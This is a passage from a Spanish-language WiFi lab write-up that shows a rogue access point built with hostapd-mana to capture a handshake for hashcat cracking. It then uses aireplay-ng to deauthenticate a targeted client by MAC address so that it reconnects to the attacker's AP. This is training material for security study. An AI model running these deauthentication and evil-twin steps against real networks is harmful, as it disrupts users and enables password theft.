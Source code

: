 Ahora ejecutamos el **hostapd-mana** vamos a exportar el archivo en formato **hccapx** para poder usar **hashcat** y obtener la contraseña

```bash
❯ hostapd-mana hostapd-sae.conf
```

Ahora vamos a deautenticar al cliente esto solo funcionara en caso de que esto este desactivado

![](/assets/images/wifi-challenge-lab2/alv.png)

Vamos a configurar todo antes para que la interfaz donde esta en el modo monitor se ponga en el canal 11 

```bash
❯ iwconfig wlan0mon channel 11
```

Ahora simplemente usamos **aireplay-ng** para deautenticar al cliente seria un ataque dirigido por que es directamente a un cliente 

```bash
❯ aireplay-ng wlan0mon -0 0 -a F0:9F:C2:1A:CA:25 -c 10:F9:6F:AC:53:52
```

Una vez ejecutamos vemos que obtenemos que el cliente se reasocie pero a nuestro **AP**

![](/assets/images/wifi-challenge-lab2/jelty.png)
